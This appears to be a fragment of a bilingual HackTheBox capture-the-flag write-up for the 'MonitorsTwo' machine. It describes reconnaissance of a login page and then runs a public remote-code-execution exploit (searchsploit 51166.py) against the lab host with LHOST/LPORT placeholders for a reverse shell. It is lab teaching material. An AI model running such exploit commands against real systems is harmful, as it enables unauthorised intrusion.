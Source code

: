 ```yaml
---
title: MonitorsTwo Write Up
#date: YYYY-MM-DD HH:MM:SS +/-TTTT
categories: [Write Ups, HackTheBox]
tags: [ctf]     # TAG names should always be lowercase
---
```



OS: Linux

Dificultad: Fácil/Easy

- [English](#reconnaissance)
- [Español](#reconocimiento)

#### Reconnaissance

![FirstPic](../assets/img/1.png)
![FirstPic]({{ '../assets/img/1.png' | relative_url }}){: .center-image } 

The web redirects you to a login page, after fuzzing we didnt found any interresting so lets try manually.

![SecondPic]({{ '../assets/img//2.png' | relative_url }}){: .center-image } 

The name of the CMS and the version are visible so lets find out if it is deprecated.

![3Pic]({{ '../assets/img/3.png' | relative_url }}){: .center-image }
#### Explotation

There is a remote code execution available for the version 1.2.22 so lets try to explote it:

```sh
searchsploit -m php/webapps/51166.py
python3 51166.py -u http://10.10.11.211/ -p <LPORT> -i <LHOST>
`````
